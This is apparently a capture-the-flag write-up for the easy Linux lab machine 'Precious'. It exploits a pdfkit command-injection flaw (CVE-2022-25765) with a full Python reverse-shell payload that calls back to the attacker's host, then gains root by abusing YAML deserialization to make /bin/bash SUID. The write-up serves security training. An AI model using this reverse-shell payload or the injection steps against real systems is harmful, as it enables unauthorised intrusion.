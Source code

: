 # Precious Machine Writeup - Easy

## Overview
Machine OS: Linux
Difficulty: Easy

![image](https://user-images.githubusercontent.com/99826925/212559935-cadec647-87aa-4757-9643-42e7d8ad8c7c.png)

## Enumeration

The first step I made, as usual, scan for open ports and look for anything suspicious.

For this reason, I used the following command:

└─$ nmap -sC -sV 10.10.11.189 

![1](https://user-images.githubusercontent.com/99826925/212559647-3abcf2f0-74bb-4740-8e52-83c328c07da5.PNG)

We can only find the ssh and web application running on both 22 and 80 ports.
Even after trying to fuzz for subdomains, we had nothing interesting.
So let's jump to our browser and have a look at the website.

## Look inside the webpage

![image](https://user-images.githubusercontent.com/99826925/212560106-7d104529-4f17-4761-b7e6-ffa8d3f1ec85.png)

It looks like this web page converts a website that a user provides to a PDF document.
I tried to see how it works. For this reason, I started a http server with python.

![image](https://user-images.githubusercontent.com/99826925/212560283-0bd57637-87ec-40fe-bc34-a68d259972e2.png)

![image](https://user-images.githubusercontent.com/99826925/212560366-f5162a10-90a1-4661-9c63-7296d525220f.png)

Our server is ready to be converted to PDF. I pasted the URL and the website generated a PDF File.

## Getting user access

Analyzing the PDF, I used Exiftool on the generated PDF to find that it's using "pdfkit v0.8.6".

I went to google to see if we can use a CVE for this version, to find that this version is vulnerable to Command Injection 'CVE-2022-25765'
An application could be vulnerable if it tries to render a URL that contains query string parameters with user input.

For more info visit : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

I edited the URL Provided to add a parameter and see if I can execute a system command to make it look like :
http://10.10.**.**/?name=%20'whoami'
The resulted PDF:

![image](https://user-images.githubusercontent.com/99826925/212561063-d0dd0cb4-d098-475a-ab2b-1cc97690c4d6.png)

So it's working ! I know I can inject system commands, so I generated a reverse shell using https://www.revshells.com/ and pasted it in my URL's parameter:

```http://10.10.**.**/?name='python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.**.**",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")''```
and on my side, I had a NetCat listener :

└─$ nc -lvnp 4444

![image](https://user-images.githubusercontent.com/99826925/212561720-26b03023-7614-4474-9b9c-6cc220c4156f.png)

![image](https://user-images.githubusercontent.com/99826925/212561756-c61e1fb2-f6f5-476e-9556-9febb9a5c829.png)

Nice ! we got our hands on the shell.

Listing the home directory, I found there is a user called 'henry'. And after spending some time looking in the files and folders, I was able to find henry's credentials in .bundle/config file.

![image](https://user-images.githubusercontent.com/99826925/212561910-77201647-e539-4cde-9b04-b00ab7c5a0c9.png)

Using those credentials, I was able to SSH through henry's user and get the user flag.

![image](https://user-images.githubusercontent.com/99826925/212562543-bc07389d-79b5-4ae6-aa04-49e75a9cef24.png)

## Privilege Escalation

The first step I usually do, is to run ```sudo -l``` to see if we have any files we can run as root.

![image](https://user-images.githubusercontent.com/99826925/212562593-a0d02d64-1bf3-464e-9c00-c500adffb2ca.png)

looking inside the update_dependencies.rb, we notice that it is calling ```yaml.load()``` function, which seems to be vulnerable to Blind Remote Code Execution through YAML Deserialization

For more info : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

![image](https://user-images.githubusercontent.com/99826925/212562617-077c08ad-c505-454c-950f-f675b6eeb011.png)

I used the script provided in the link above to make the dependencies.yml file and made a system command in the git_set param and inserted ```whoami```:

![image](https://user-images.githubusercontent.com/99826925/212562671-45a76150-12ab-4b7d-bee8-9e2031c5ed09.png)

Let's see what happens when we run the ruby file :

![image](https://user-images.githubusercontent.com/99826925/212563443-7b0cf5af-0014-425a-86db-8c8eedf212bc.png)

the server is executing what we provide in the git_set param !
Now let’s see if we can change the permissions of the /bin/bash directory so that we can elevate our privileges:

![image](https://user-images.githubusercontent.com/99826925/212563592-78f01a26-1168-4f73-ba78-1198cc2be6de.png)

Running again:

![image](https://user-images.githubusercontent.com/99826925/212563640-058a8393-1e14-4a69-8254-a18757efbaf6.png)

let's see now if we could put our hands on the root user :

![image](https://user-images.githubusercontent.com/99826925/212563672-88408adc-24be-497c-bded-b75fdbfc4ede.png)

It worked ! now let's claim our prize and have that root flag!

![image](https://user-images.githubusercontent.com/99826925/212563698-6e83d448-2e23-4f2f-a9f8-d5d0c1a52210.png)


 




